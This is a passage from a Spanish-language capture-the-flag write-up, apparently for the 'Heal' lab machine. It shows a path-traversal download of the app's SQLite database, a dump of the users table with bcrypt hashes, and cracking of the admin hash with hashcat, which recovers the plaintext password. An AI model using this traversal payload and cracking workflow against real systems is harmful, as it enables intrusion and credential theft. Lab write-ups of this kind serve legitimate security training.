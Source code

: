 ```console

2024-12-30 19:35:05 (866 KB/s) - ‘download?filename=..%2F..%2Fstorage%2Fdevelopment.sqlite3’ saved [32768/32768]
```

Importante pasarle a `wget` nuestro token JWT para poder utilizar la API.

Ahora cambiamos el nombre del archivo.
```console
mv download\?filename=..%2F..%2Fstorage%2Fdevelopment.sqlite3 development.sqlite3
```

Y comprobamos que efectivamente es una base de datos SQLite3.
```console
file development.sqlite3
development.sqlite3: SQLite 3.x database, last written using SQLite version 3045002, writer version 2, read version 2, file counter 2, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 2
```

Ahora con podemos explorar la base de datos con:
```console
sqlite3 development.sqlite3
```

Vemos una tabla `users` 
```console
sqlite> .tables
ar_internal_metadata  token_blacklists
schema_migrations     users
```

Y vemos un hash del usuario `ralph`
```console
sqlite> select * from users;
1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|2024-09-27 07:49:31.614858|2024-09-27 07:49:31.614858|Administrator|ralph|1
2|pointed@pointed.com|$2a$12$ODoDsGuIj7OaKEoFEMchqu.gXXCvPZrvTItOjnMtHdAbyXpkaohZi|2024-12-30 17:59:21.653630|2024-12-30 17:59:21.653630|pointed|pointed|0
```

## Cracking `ralph` hash
Este hash seguramente sea `bcrypt` ya que es mas típico que el resto de hashes que nos reporta `hashid`
```console
hashid
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
Analyzing '$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
```

Vamos a utilizar el modo `3200` en `hashcat` que corresponde a `bcrypt` y vemos que conseguimos crackear este hash.
```console
C:\Users\pc\Desktop\hashcat-6.2.6>.\hashcat.exe -a 0 -m 3200 .\hash.txt .\rockyou.txt --show
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
```

